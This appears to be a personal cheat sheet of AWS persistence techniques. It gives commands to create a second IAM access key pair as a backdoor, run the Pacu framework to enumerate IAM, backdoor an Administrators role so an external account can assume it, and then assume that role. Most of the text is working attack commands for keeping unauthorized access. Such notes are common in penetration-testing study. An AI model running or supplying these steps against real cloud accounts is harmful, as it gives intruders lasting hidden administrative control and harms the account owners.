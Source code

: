 # Persistence
## Index
* [Backdoor account](#Authentication)
* [Outside entity Trust relationships](#Trust-relationships)


## Backdoor account
- Each account can have two access keys
#### List access keys
```
aws iam list-access-keys --user-name <username>
```

#### Create second pair of access keys
```
aws iam create-access-key --user-name <username>
```

## Trust relationships
- Can create a trust relationship with an entity OUTSIDE of an AWS account. (cross account persistence)

#### Run pacu
```
sudo python3 cli.py
import_keys <AWS PROFILE NAME>
```

#### Run the enumeration modules
```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

#### Find ARN of external AWS account
```
sudo aws sts get-caller-identity
```

#### Backdoor the role
-  Pacu has a module that backdoors IAM roles called iam__backdoor_assume_role
```
run iam__backdoor_assume_role
run iam__backdoor_assume_role --role-names Administrators --user-arns <full ARN of your external account>
```

#### Use the external AWS account backdoor
- Not sure how to get ARN of the policy
```
sudo aws sts assume-role --role-arn <Full ARN of Backdoored Role> --role-session-name persist --profile <personal AWS account profile>
```
